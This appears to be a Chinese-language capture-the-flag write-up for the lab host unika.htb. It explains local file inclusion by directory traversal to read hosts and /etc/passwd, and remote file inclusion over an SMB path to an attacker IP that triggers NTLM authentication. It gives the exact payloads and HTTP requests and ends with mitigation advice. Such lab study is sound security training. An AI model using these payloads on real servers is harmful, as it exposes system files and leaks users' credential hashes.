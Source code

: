 - Web服务使用低权限账户运行
- 配置PHP禁用危险功能（allow_url_include=Off）
- 实施网络分段限制出站SMB连接

**监控层面**：

- 监控异常的SMB出站连接
- 审计包含特殊字符（../、//）的URL请求
- 实施多因素认证增强安全性



# LFI与RFI漏洞的发现与利用分析

## 1. LFI（本地文件包含）漏洞

### 发现过程
1. **参数识别**：通过观察URL结构，发现`page`参数用于加载不同语言版本页面
   ```
   http://unika.htb/index.php?page=french.html
   ```

2. **目录遍历测试**：尝试使用`../`进行路径遍历，测试文件包含可能性
   ```
   http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
   ```

3. **成功验证**：成功读取系统敏感文件（hosts文件），确认LFI漏洞存在

### 利用方法
```http
GET /index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts HTTP/1.1
Host: unika.htb
```

**关键Payload**：
- `../../../../../../../../windows/system32/drivers/etc/hosts`（Windows系统文件）
- `../../../../../../../../etc/passwd`（Linux系统文件）

## 2. RFI（远程文件包含）漏洞

### 发现过程
1. **协议测试**：利用PHP对SMB协议的特殊支持（即使`allow_url_include=Off`）
2. **外部资源加载**：尝试从攻击者控制的服务器加载文件
   ```
   http://unika.htb/index.php?page=//10.10.14.25/somefile
   ```

3. **认证触发**：Windows系统在访问SMB共享时会自动尝试NTLM认证

### 利用方法
```http
GET /index.php?page=//10.10.14.25/anyfile HTTP/1.1
Host: unika.htb
```
